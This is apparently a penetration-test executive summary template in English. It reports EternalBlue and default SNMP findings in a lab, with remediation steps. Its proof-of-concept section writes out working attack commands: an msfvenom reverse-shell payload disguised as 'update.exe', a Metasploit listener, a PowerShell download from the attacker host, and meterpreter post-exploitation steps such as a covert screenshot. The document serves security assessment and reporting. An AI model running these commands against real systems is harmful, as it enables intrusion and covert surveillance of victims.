






> **English** | [Italiano](README.md)

# Executive Summary - Template

> - **Phase:** Reporting - Executive Summary for Management and CISO
> - **Visibility:** Zero - reporting document, no network activity
> - **Prerequisites:** Completion of VA and Penetration Test phases; findings classified with severity and CVE; access to evidence (screenshots, output)
> - **Output:** Concise document with overall risk assessment, non-technical key findings, business impact, prioritized remediation roadmap

---

## 1 Risk Overview (Overall Risk Rating)

Based on the Vulnerability Assessment and Penetration Testing activities performed, the overall security level of the analyzed infrastructure is classified as:

# CRITICAL

The target system presents publicly known obsolete vulnerabilities (Legacy Vulnerabilities) that allow an unauthenticated attacker to obtain complete administrative control of the system. The probability of compromise is Very High.

| Metric | Assessment |
| :--- | :--- |
| Total Vulnerabilities | 12 (estimated) |
| Critical / High | 2 |
| Attack Ease | Trivial (Public Scripts Available) |
| Business Impact | Total (Loss of confidentiality and availability) |

---

## 2 Key Findings

During the analysis, the following priority criticalities were identified:

#### A. Remote Code Execution (EternalBlue) - Critical

The presence of the outdated SMBv1 protocol was detected. This configuration exposes the company to the EternalBlue vulnerability (MS17-010).

- Impact: An attacker can enter the system without a password and install malicious software (e.g., Ransomware, Spyware).
- Status: Verified (Exploit available).

#### B. Sensitive Data Exposure (SNMP) - Medium

The SNMP monitoring service is configured with the default password ("public").

- Impact: An attacker can map the entire internal network, list users and installed software, facilitating subsequent attacks.

---

## 3 Business Impact

If these vulnerabilities were exploited by a malicious actor, the consequences for the organization would include:

1. Operational Disruption: System lockdown via Ransomware.

2. Intellectual Property Theft: Unauthorized access to confidential documents.

3. Reputational Damage: Loss of customer trust and possible GDPR sanctions for data breach.

---

## 4 Strategic Recommendations (Roadmap)

The following corrective actions are recommended in order of priority:

1.  Immediate (Within 24h): Apply Microsoft security patches (MS17-010) on all Windows systems. If not possible, disable the SMBv1 protocol.

2.  Short Term (1 week): Reconfigure the SNMP service by changing the default community string or limiting access to management IP addresses only.

3.  Long Term: Implement a centralized patch management system and conduct periodic vulnerability scans (quarterly).

---

## 5 Technical Details and Proofs of Concept (PoC)

In this section, the technical evidence of the found vulnerabilities and the methodology used to validate the impact (Exploitation) are documented.

#### 5.1 SMB Vulnerability Verification (EternalBlue)

The Nmap Scripting Engine was used to query the SMB service and verify the missing MS17-010 patch application.

```Bash
nmap -p 445 --script smb-vuln-ms17-010 10.0.2.3
```

Explanation: The command scans port 445 (SMB) and launches a specific script (`smb-vuln-ms17-010`) that sends specially malformed packets to see how the server responds, without crashing it.

Output Obtained: The output highlights the `VULNERABLE` status or provides details about the operating system status that confirm susceptibility to the attack.



#### 5.2 Client-Side Attack Simulation (Reverse Shell)

Given the critical risk level, a complete attack scenario ("Exploitation") was simulated to demonstrate the consequences of a compromise. The Metasploit framework was used to generate a payload, bypass basic protections and obtain remote control.

Phase A: Malicious Agent Creation (Payload)

An executable (`update.exe`) was created configured to connect back to the attacking machine (Reverse TCP), bypassing firewalls that only block inbound connections.

```Bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=4444 -f exe -o update.exe
```

Phase B: Command and Control (C2) Server Configuration

A "Listener" was configured on the attacking machine to receive the victim's connection.

```Bash
msfconsole
```



```Bash
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.0.2.15
set LPORT 4444
run
```

Phase C: Execution and Compromise

The file was transferred to the victim simulating a download via PowerShell (to bypass the browser's SmartScreen filters) and executed.

Command (Victim Side - PowerShell): `Invoke-WebRequest -Uri "http://10.0.2.15:8080/update.exe" -OutFile "C:\Users\Public\update.exe"`

Result (Meterpreter Session): Execution opened a stable remote session (`Meterpreter session 1 opened`), granting full system access.





#### 5.3 Post-Exploitation Evidence (Proof of Impact)

Once access was obtained, commands were executed to demonstrate the extent of acquired control.

1. System Verification (`sysinfo`) Confirms the attacker is operating inside the Windows 10 target machine.

```Bash
meterpreter > sysinfo
```

2. User Identification (`getuid`) Shows which privileges the attack is running under.

```Bash
meterpreter > getuid
```

3. Privacy Violation (`screenshot`) A screenshot of the user's desktop was captured without their knowledge, demonstrating the risk of industrial espionage.

```Bash
meterpreter > screenshot
```




